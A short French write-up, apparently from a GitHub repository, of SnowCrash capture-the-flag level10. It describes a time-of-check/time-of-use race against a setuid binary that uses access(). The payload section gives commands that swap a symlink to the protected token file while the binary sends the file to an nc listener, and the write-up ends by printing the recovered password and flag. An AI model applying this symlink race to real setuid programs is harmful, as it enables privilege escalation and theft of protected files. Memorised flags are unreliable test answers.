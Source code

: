 #+TITLE: SnowCrash -- Level10

* Race condition
** On fait quelques teste avec le fichier fourni.
on voit que le programme permet d'envoyer un fichier sur le port 6969.
#+begin_bash
./level10 file 10.0.2.15
nc -l 6969
#+end_bash
On remarque aussi la presence d'access pour verifier les droits.
Dans le manuel d'access(), on voit un avertissement :
Il ne faut pas utiliser access dans le cas d'un programme setuid car il est possible d'alterer le contenu du fichier entre la verification des droits et le m oment ou le systeme va se mettre a lire reellement le contenu du fichier.

** Payload :
#+begin_bash
echo "qweqwteryqtweryqtwe....." > /tmp/asd # longue ligne
./level10 /tmp/asd 10.0.2.15 & ln -fs /home/user/level10/token /tmp/asd
#+end_bash
et voila, nous avons le mot de passe de flag10 :
*woupa2yuojeeaaed06riuj63c*

* FLAG:
** feulo4b72j7edeahuete3no7c
